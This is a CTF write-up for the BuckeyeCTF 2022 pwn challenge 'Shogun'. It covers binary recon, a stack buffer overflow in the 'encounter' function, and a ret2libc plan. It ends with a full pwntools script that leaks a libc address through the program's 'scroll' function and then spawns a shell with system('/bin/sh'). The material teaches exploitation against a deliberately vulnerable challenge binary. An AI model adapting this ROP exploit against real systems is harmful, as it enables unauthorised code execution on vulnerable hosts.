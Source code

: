* TOC
{:toc}

This is a writeup about the 2022 BuckeyeCTF challenge `Shogun`

# BuckeyeCTF 2022 Shogun | Thomas Spencer

> Category: `pwn` | Difficulty: `medium`

# Recon

## File

```
shogun: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0c6ef59275fd0386ecdccf02d6838d327ed11b61, for GNU/Linux 3.2.0, not stripped
```

## Checksec 

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no Canary means we'll likely have to ROP, perhaps ret2libc

# Functions

## scroll

* Will take a `char\*` as input.

* Will slowly print out the inputted string, one character at a time

## Encounter

* Prints out a string of story flavor text

* Takes user input

    * Obvious buffer overflow, size 32 buffer with size 81 read using `fgets()`

## main

* Prints some story text

* Takes in user input

    * Checks to see if start of user input is `"Look around."`

    * If it is not, we die

    * If it is, we enter `encounter`


# Vulnerabilites

* Buffer overflow in `encounter` function

    * Large enough to allow for ROP

* No canaries or PIE, meaning we can ROP without stack data leaks

# Plan of Attack

* `ret2libc` attack, because we have an easy stack overflow into ROP vector.

**ISSUE**: Normally for `ret2libc` ROP, we would use a `Puts(Puts)` to leak a GOT table entry to find out where `libc` is. However, there is no `puts` reference in the GOT of the binary.

Must use another means to leak information...

We can use the `scroll` function, since it acts like puts!

# Exploit

* ... enter `encounter` function

* ROP to leak a GOT entry with the `scroll` function

* Use the leak to perform a `ret2libc` and grab a shell

# Final Script

```python
#!/bin/env python3

from pwn import *

DEBUG = True
FILE = "./shogun"
HOST = "pwn.chall.pwnoh.io"
PORT = 13373

POP_RDI_RET = 0x401383
RET = 0x40101a
PUTCHAR_GOT = 0x403FC0
BINSH = 0x1b45bd

context.arch = "amd64"
context.encoding = "latin"
warnings.simplefilter("ignore")

elf = ELF(FILE)
rop = ROP(FILE)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([FILE]) if (DEBUG) else remote(HOST, PORT)

BUFFER_SIZE = 0x20

print(p.recvuntil(b'disturbance. ').decode())
p.sendline(b'Look around.')
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(PUTCHAR_GOT)
payload += p64(elf.symbols["scroll"])
payload += p64(elf.symbols["_start"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.send(payload)

putCharPtr = p.recvuntil(b'You finally')[:6]
print(putCharPtr.hex())
putCharInt = int.from_bytes(putCharPtr, "little", signed=False)

libcBase = putCharInt - 0x86280

print(hex(putCharInt))

p.sendline(b'Look around.')
print(p.recvuntil(b'disturbance. ').decode())
print(p.clean().decode())
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(libcBase + BINSH)
payload += p64(libcBase + libc.symbols["system"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.sendline(payload)

p.interactive()

p.close()
```

